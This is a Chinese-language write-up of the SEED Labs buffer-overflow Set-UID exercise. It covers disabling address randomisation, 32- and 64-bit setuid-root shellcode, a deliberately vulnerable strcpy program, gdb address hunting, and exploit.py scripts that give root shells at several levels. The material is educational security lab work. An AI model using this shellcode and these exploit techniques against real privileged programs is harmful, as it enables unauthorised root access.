




# 缓冲区溢出攻击之 Buffer Overflow Setuid

## 一、实验准备

### 1. 关闭地址随机化

Address Space Randomization. Ubuntu and several other Linux-based systems uses address space randomization to randomize the starting address of heap and stack. This makes guessing the exact addresses difficult; **<font color="red">guessing addresses is one of the critical steps of buffer-overflow attacks</font>**. This feature can be disabled using the following command:

```shell{.line-numbers}
$ sudo sysctl -w kernel.randomize_va_space=0
```

### 2.编写 shellcode

#### 2.1 shellcode 的 c 代码形式

```c{.line-numbers}
#include <stdio.h>

int main() {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

#### 2.2 32-bit 形式的 shellcode

```armasm{.line-numbers}
;文件名：sh32.s
;调用 setuid(0) 函数
xorl %eax, %eax
xorl %ebx, %ebx
movb $0xd5, %al
int $0x80

;Store the command on stack
xorl %eax, %eax
pushl %eax
pushl $0x68732f2f
pushl $0x6e69622f
;ebx --> "/bin//sh": execve()’s 1st argument
movl %esp, %ebx

;Construct the argument array argv[]
;argv[1] = 0
pushl %eax
;argv[0] --> "/bin//sh" 
pushl %ebx
;%ecx --> argv[]: execve()’s 2nd argument
movl %esp, %ecx

;For environment variable
;%edx = 0: execve()’s 3rd argument
xorl %edx, %edx

;Invoke execve()
xorl %eax, %eax
;execve()’s system call number
movb $0x0b, %al
int $0x80
```

使用 **`gcc -nostdlib -static sh32.s -o sh32`** 命令编译上述汇编代码，然后使用 objdump -d 对编译得到二进制机器码进行反汇编。

```armasm{.line-numbers}
monica@xvm:~/csapp/seed-buffer-overflow-lab$ objdump -d sh32

sh32：     文件格式 elf32-i386

Disassembly of section .text:

08049000 <__bss_start-0x1000>:
 8049000:	31 c0                	xor    %eax,%eax
 8049002:	31 db                	xor    %ebx,%ebx
 8049004:	b0 d5                	mov    $0xd5,%al
 8049006:	cd 80                	int    $0x80
 8049008:	31 c0                	xor    %eax,%eax
 804900a:	50                   	push   %eax
 804900b:	68 2f 2f 73 68       	push   $0x68732f2f
 8049010:	68 2f 62 69 6e       	push   $0x6e69622f
 8049015:	89 e3                	mov    %esp,%ebx
 8049017:	50                   	push   %eax
 8049018:	53                   	push   %ebx
 8049019:	89 e1                	mov    %esp,%ecx
 804901b:	31 d2                	xor    %edx,%edx
 804901d:	31 c0                	xor    %eax,%eax
 804901f:	b0 0b                	mov    $0xb,%al
 8049021:	cd 80                	int    $0x80
```

#### 2.3 64-bit 形式的 shellcode

```armasm{.line-numbers}
;文件名：sh64.s
;调用 setuid(0) 函数
xorq 	%rdi, %rdi
movb	$105, %al
syscall

;%rdx = 0: execve()’s 3rd argument
xorq %rdx, %rdx
pushq %rdx
;the command we want to run
movabs $0x68732f2f6e69622f, %rax
pushq %rax
;%rdi --> "/bin//sh": execve()’s 1st argument
movq %rsp, %rdi

;argv[1] = 0
pushq %rdx
;argv[0] --> "/bin//sh"
pushq %rdi
;rsi --> argv[]: execve()’s 2nd argument
movq %rsp,%rsi

xorq %rax, %rax

;execve()’s system call number
movb $0x3b, %al
syscall
```

使用 **`gcc -nostdlib -static sh64.s -o sh64`** 命令编译上述汇编代码，然后使用 objdump -d 对编译得到二进制机器码进行反汇编。

```armasm{.line-numbers}
monica@xvm:~/csapp/seed-buffer-overflow-lab$ objdump -d sh64

sh64：     文件格式 elf64-x86-64

Disassembly of section .text:

0000000000401000 <__bss_start-0x1000>:
  401000:	48 31 ff             	xor    %rdi,%rdi
  401003:	b0 69                	mov    $0x69,%al
  401005:	0f 05                	syscall 
  401007:	48 31 d2             	xor    %rdx,%rdx
  40100a:	52                   	push   %rdx
  40100b:	48 b8 2f 62 69 6e 2f 	movabs $0x68732f2f6e69622f,%rax
  401012:	2f 73 68 
  401015:	50                   	push   %rax
  401016:	48 89 e7             	mov    %rsp,%rdi
  401019:	52                   	push   %rdx
  40101a:	57                   	push   %rdi
  40101b:	48 89 e6             	mov    %rsp,%rsi
  40101e:	48 31 c0             	xor    %rax,%rax
  401021:	b0 3b                	mov    $0x3b,%al
  401023:	0f 05                	syscall 
```

#### 2.4 执行 shellcode

我们将上述编译得到的 32 位和 64 位 shellcode 的二进制代码编写到下面的 c 代码中：

```c{.line-numbers}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
#if __x86_64__
"\x48\x31\xff"
"\xb0\x69"
"\x0f\x05"

"\x48\x31\xd2"
"\x52"
"\x48\xb8\x2f\x62\x69\x6e\x2f"
"\x2f\x73\x68"
"\x50"
"\x48\x89\xe7"
"\x52"
"\x57"
"\x48\x89\xe6"
"\x48\x31\xc0"
"\xb0\x3b"
"\x0f\x05"
#else
"\x31\xc0"
"\x31\xdb"
"\xb0\xd5"
"\xcd\x80"

"\x31\xc0"
"\x50"
"\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e"
"\x89\xe3"
"\x50"
"\x53"
"\x89\xe1"
"\x31\xd2"
"\x31\xc0"
"\xb0\x0b"
"\xcd\x80"
#endif
;
int main(int argc, char **argv) {

    char code[500];
    // Copy the shellcode to the stack// Copy the shellcode to the stack
    strcpy(code, shellcode);
    int (*func)() = (int(*)())code;
    // Invoke the shellcode from the stack
    func();
    return 1;
}
```

The code above includes two copies of shellcode, one is 32-bit and the other is 64-bit. **<font color="red">When we compile the program using the `-m32` flag, the 32-bit version will be used; without this flag, the 64-bit version will be used</font>**. 接下来，使用 **`gcc call_shellcode.c -o call32 -m32 -z execstack -fno-stack-protector`** 命令和 **`gcc call_shellcode.c -o call64 -z execstack -fno-stack-protector`** 将上述代码编译成 32 位和 64 位的二进制程序 call32 和 call64。接下来分别将上述程序设置成 Set-UID 特权程序，最后运行，得到的结果如下所示：

```c{.line-numbers}
monica@xvm:~/csapp/seed-buffer-overflow-lab$ gcc call_shellcode.c -o call32 -m32 -z execstack -fno-stack-protector
monica@xvm:~/csapp/seed-buffer-overflow-lab$ sudo chown root call32
monica@xvm:~/csapp/seed-buffer-overflow-lab$ sudo chmod 4755 call32
monica@xvm:~/csapp/seed-buffer-overflow-lab$ ./call32
# 
monica@xvm:~/csapp/seed-buffer-overflow-lab$ gcc call_shellcode.c -o call64 -z execstack -fno-stack-protector
monica@xvm:~/csapp/seed-buffer-overflow-lab$ sudo chown root call64
monica@xvm:~/csapp/seed-buffer-overflow-lab$ sudo chmod 4755 call64
monica@xvm:~/csapp/seed-buffer-overflow-lab$ ./call64
# 
```

### 3.编写漏洞程序

漏洞程序如下所示，首先从 badfile 文件中获取输入并保存到 str 数组中，接着将此输入通过 strcpy 函数复制到 bof 的函数栈中。

```c{.line-numbers}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str) {

    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv) {
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

## 二、对 32 位程序进行攻击——Level 1

首先我们使用 **`gcc -m32 -o stack_l1_gdb -z execstack -fno-stack-protector stack.c -g`** 命令编译上述代码，得到二进制程序 stack_l1_gdb，然后使用 gdb 对 stack_l1_gdb 进行调试：

```shell{.line-numbers}
monica@xvm:~/csapp/seed-buffer-overflow-lab$ gcc -m32 -o stack_l1_gdb -z execstack -fno-stack-protector stack.c -g
monica@xvm:~/csapp/seed-buffer-overflow-lab$ sudo chown root stack_l1_gdb 
monica@xvm:~/csapp/seed-buffer-overflow-lab$ sudo chmod 4755 stack_l1_gdb 
monica@xvm:~/csapp/seed-buffer-overflow-lab$ gdb stack_l1_gdb 
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04.2) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from stack_l1_gdb...

(gdb) b bof
Breakpoint 1 at 0x11de: file stack.c, line 14.
(gdb) r
Breakpoint 1, bof (str=0xffffce77 "") at stack.c:14
14      strcpy(buffer, str);
(gdb) p $ebp
$1 = (void *) 0xffffce58
(gdb) p &buffer
$3 = (char (*)[100]) 0xffffcdec
(gdb) p/d 0xffffce58-0xffffcdec
$4 = 108
```

从上述 gdb 调试得到的 %ebp 的值为 **`0xffffce58`**，buffer 的起始地址为 **`0xffffcdec`**。

>**<font color="red">_It should be noted that the frame pointer value obtained from gdb is different from that during the actual execution (without using gdb)_</font>**. This is because gdb has pushed some environment data into the stack before running the debugged program. When the program runs directly without using gdb, the stack does not have those data, **so the actual frame pointer value will be larger**. You should keep this in mind when constructing your payload.

为了验证上面关于 %ebp 寄存器在程序实际运行时的值大于使用 gdb 调试时的值的说法，我们将 bof 函数修改如下，stack.c 代码中的其余部分保持不变，这里使用内联汇编在运行时获取并打印 %ebp 寄存器和 buffer 起始地址的值。

```c{.line-numbers}
int bof(char *str) {
    char buffer[BUF_SIZE];
    unsigned long ebp_value;
    __asm__ volatile ("movl %%ebp, %0" : "=r" (ebp_value));
    printf("buffer:%p  ebp:0x%lx\n", buffer, ebp_value);
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}
```

同样使用 **`gcc -m32 -o stack_l1_gdb -z execstack -fno-stack-protector stack.c -g`** 命令编译并得到二进制程序 stack_l1_gdb，然后运行得到的结果如下所示，**<font color="red">可以看出，运行时 %ebp 的值 **`0xffffcec8`** 大于使用 gdb 调试时获取到的 %ebp 值</font>** **`0xffffce58`**。

```c{.line-numbers}
monica@xvm:~/csapp/seed-buffer-overflow-lab$ ./stack_l1_gdb 
buffer:0xffffce58  ebp:0xffffcec8
Returned Properly
```

从以上的执行结果可以看出，帧指针 %ebp 的实际值是 **`0xffffcec8`**。因此返回地址保存在 **`0xffffcec8+4`** 中，并且第一个 NOP 指令在 **`0xffffcec8+8`**。因此，可以将 **`0xffffcec8+8`** 作为恶意代码的入口地址，把它写入返回地址字段中。

由于输入将被复制到 buffer 中，为了让输入中的返回地址字段准确地覆盖栈中的返回地址区域，**需要知道栈中 buffer 和返回地址区域之间的距离，这个距离就是返回地址字段在输入数据中的相对位置**。

从调试信息可以轻松地获知 buffer 的起始地址，然后计算出从 %ebp 到 buffer 起始处的距离。通过计算，得到的结果是 112，因此返回地址区域到 buffer 起始处的距离就是 116。

因此，我们使用如下的 exploit.py 文件构造 badfile 输入：

```python{.line-numbers}
import sys

shellcode = (
    "\x31\xc0"
    "\x31\xdb"
    "\xb0\xd5"
    "\xcd\x80"

    "\x31\xc0"
    "\x50"
    "\x68\x2f\x2f\x73\x68"
    "\x68\x2f\x62\x69\x6e"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x31\xd2"
    "\x31\xc0"
    "\xb0\x0b"
    "\xcd\x80"
).encode('latin-1')

content = bytearray(0x90 for i in range(400))
content[400 - len(shellcode):] = shellcode

ret = 0xffffcec8 + 50
content[116:120] = (ret).to_bytes(4, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```

运行得到的结果如下所示：

```c{.line-numbers}
monica@xvm:~/csapp/seed-buffer-overflow-lab$ python3 exploit.py 
monica@xvm:~/csapp/seed-buffer-overflow-lab$ ./stack_l1_gdb 
buffer:0xffffce58  ebp:0xffffcec8
# 
```

## 三、不知道 buffer 的大小——Level 2

首先进行实验环境的准备工作，使用 **`git clone https://github.com/seed-labs/seed-labs.git`** 下载 seed-labs 实验代码和资料。

<div align="center">
    
</div>

然后进入到 Buffer_Overflow_Setuid 这个文件夹，也就是我们做的实验为 setuid 版本。然后进入 code 文件夹，使用 make 进行编译。

```shell{.line-numbers}
monica@xvm:~/csapp/seed-labs/category-software/Buffer_Overflow_Setuid/Labsetup/code$ make
gcc -DBUF_SIZE=100 -z execstack -fno-stack-protector -m32 -o stack-L1 stack.c
gcc -DBUF_SIZE=100 -z execstack -fno-stack-protector -m32 -g -o stack-L1-dbg stack.c
sudo chown root stack-L1 && sudo chmod 4755 stack-L1
gcc -DBUF_SIZE=160 -z execstack -fno-stack-protector -m32 -no-pie -o  stack-L2 stack.c
gcc -DBUF_SIZE=160 -z execstack -fno-stack-protector -m32 -no-pie -g  -o stack-L2-dbg stack.c
sudo chown root stack-L2 && sudo chmod 4755 stack-L2
gcc -DBUF_SIZE=200 -z execstack -fno-stack-protector -o stack-L3 stack.c
gcc -DBUF_SIZE=200 -z execstack -fno-stack-protector -g -o stack-L3-dbg stack.c
sudo chown root stack-L3 && sudo chmod 4755 stack-L3
gcc -DBUF_SIZE=10 -z execstack -fno-stack-protector -o stack-L4 stack.c
gcc -DBUF_SIZE=10 -z execstack -fno-stack-protector -g -o stack-L4-dbg stack.c
sudo chown root stack-L4 && sudo chmod 4755 stack-L4
```

编译之后得到如下 8 个二进制文件，而带有 dbg 后缀的二进制文件是可使用 gdb 调试的版本。

<div align="center">
    
</div>

本节实验使用 stack-L2 和 stack-L2-dbg 两个版本的程序，首先使用 gdb 调试 stack-L2-dbg 获取到 buffer 数组的起始地址为 0xffffc930。

```c{.line-numbers}
monica@xvm:~/csapp/seed-labs/category-software/Buffer_Overflow_Setuid/Labsetup/code$ gdb stack-L2-dbg 
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04.2) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from stack-L2-dbg...
(gdb) b bof
Breakpoint 1 at 0x80491fa: file stack.c, line 19.
(gdb) r
Starting program: /home/monica/csapp/seed-labs/category-software/Buffer_Overflow_Setuid/Labsetup/code/stack-L2-dbg 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Input size: 517

Breakpoint 1, bof (str=0xffffce03 "\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377\324\312\377\377"...) at stack.c:19
19	    strcpy(buffer, str);
(gdb) p &buffer
$1 = (char (*)[160]) 0xffffc930
```

然后运行 stack-L2 程序，可以获得 str 数组的大小为 517，我们构建的 badfile 文件大小应该为 517 字节。

```c{.line-numbers}
monica@xvm:~/csapp/seed-labs/category-software/Buffer_Overflow_Setuid/Labsetup/code$ ./stack-L2
Input size: 517
```

现在不知道 buffer 的大小，只知道范围为 100~200，因此从 buffer 的起始地址到返回地址字段的距离应该为 220，增加的 20 是因为编译器会在 buffer 数组的结尾增加额外的空间。这里可以使用 spraying technique，将 badfile 的前 220 个字节填充返回地址 RT。现在主要需要确定 K 的值，从而确定返回地址 RT 的值。按理来说，$\scriptsize{M\le{K\le{N}}}$，但是这里需要注意，GDB 调试时 buffer 的起始地址小于程序真正运行时的起始地址，这里假设小的值为 $\scriptsize{X}$，现在 $\scriptsize{M+X\le{K\le{N+X}}}$。

<div align="center">
    
</div>

现在取值 $\scriptsize{M=220}$ 而 $\scriptsize{N=450}$，$\scriptsize{X=200}$，则 $\scriptsize{K=420}$，现在构造 exploit.py 文件如下所示：

```python{.line-numbers}
import sys

shellcode = (
"\x31\xc0"
"\x31\xdb"
"\xb0\xd5"
"\xcd\x80"

"\x31\xc0"
"\x50"
"\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e"
"\x89\xe3"
"\x50"
"\x53"
"\x89\xe1"
"\x31\xd2"
"\x31\xc0"
"\xb0\x0b"
"\xcd\x80"
).encode('latin-1')

content = bytearray(0x90 for i in range(517))

content[517 - len(shellcode):] = shellcode

ret = 0xffffc930 + 420
for i in range(55):
	content[i*4:i*4+4] = (ret).to_bytes(4, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```

运行结果如下所示，攻击成功，这里最关键的就是 X 的值选取，可能要进行反复尝试（倾向于选择大一点的数字），才能最后成功。

```c{.line-numbers}
monica@xvm:~/csapp/seed-labs/category-software/Buffer_Overflow_Setuid/Labsetup/code$ ./stack-L2
Input size: 517
# 
```

## 四、对 64 位程序进行攻击——Level 4

在 Level 4 的攻击任务中，同样需要对 64 位程序进行攻击，同样需要解决 64 位返回地址中可能存在的 '\0' 字节的问题。之前解决这个问题，**<font color="red">而解决方法就是将 shellcode 往前移动到 buffer 起始地址和 %rbp 之间的位置</font>**。但是现在 buffer 的大小为 10，无法容纳 shellcode，因此无法再使用这种方式。但是考虑到 main 函数栈帧中 str 数组内也存在 shellcode，因此，只需要将 bof 函数栈帧中的 RT 设置为 str 中 shellcode 的地址即可。

首先将 stack.c 的代码修改如下：

```c{.line-numbers}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];
    unsigned long rbp_value;
    __asm__ volatile ("movq %%rbp, %0" : "=r" (rbp_value));
    printf("buffer:%p  rbp:0x%lx\n", buffer, rbp_value);
    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    printf("str:%p\n", str);
    FILE *badfile;

    badfile = fopen("badfile", "r"); 
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}
```

上述程序的运行结果如下所示：

```c{.line-numbers}
monica@xvm:~/csapp/seed-labs/category-software/Buffer_Overflow_Setuid/Labsetup/code$ ./stack-L4
str:0x7fffffffdcf0
Input size: 517
buffer:0x7fffffffd8ae  rbp:0x7fffffffd8c0
```

从以上执行结果来看，数组 buffer 的起始地址为 **`0x7fffffffd8ae`**，栈指针 %rbp 的地址为 **`0x7fffffffd8c0`**，返回地址为 **`0x7fffffffd8c0+8`**。然后计算出从 %rbp 到 buffer 起始处的距离。通过计算，得到的结果是 18，因此返回地址区域到 buffer 起始处的距离就是 26。但是具体的返回地址值 RT 应该为 main 函数栈帧中恶意代码的起始地址，如下图（a）所示。**<font color="red">这里需要注意，由于 RT 中包含 '\0' 字节，因此 strcpy 函数在将 badfile 文件的内容复制到 bof 函数栈中时，实际只复制了图（a）中青色的部分</font>**。

现在已知 str/badfile 的起始地址为 **`0x7fffffffdcf0`**，根据图（b）中的完整 badfile 文件的结构，RT 需要跳过 badfile 中的前 26 个字节，进入 NOP 区域。

<div align="center">
    <div align="center" style="color: #227; font-size:13px; font-weight:bold">(a) 函数栈帧示意图</div>
    
    <div align="center" style="color: #227; font-size:13px; font-weight:bold">(b) badfile 文件结构示意图</div>
    
</div>

根据以上分析，构建 exploit.py 文件：

```python{.line-numbers}
import sys

shellcode = (
"\x48\x31\xff"
"\xb0\x69"
"\x0f\x05"

"\x48\x31\xd2"
"\x52"
"\x48\xb8\x2f\x62\x69\x6e\x2f"
"\x2f\x73\x68"
"\x50"
"\x48\x89\xe7"
"\x52"
"\x57"
"\x48\x89\xe6"
"\x48\x31\xc0"
"\xb0\x3b"
"\x0f\x05"
).encode('latin-1')

content = bytearray(0x90 for i in range(517))
content[517 - len(shellcode):] = shellcode

ret = 0x7fffffffdcf0 + 100
content[26:34] = (ret).to_bytes(8, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```

运行结果如下，成功获取到 root 权限。

```c{.line-numbers}
monica@xvm:~/csapp/seed-labs/category-software/Buffer_Overflow_Setuid/Labsetup/code$ ./stack-L4
str:0x7fffffffdcf0
Input size: 517
buffer:0x7fffffffd8ae  rbp:0x7fffffffd8c0
# 
```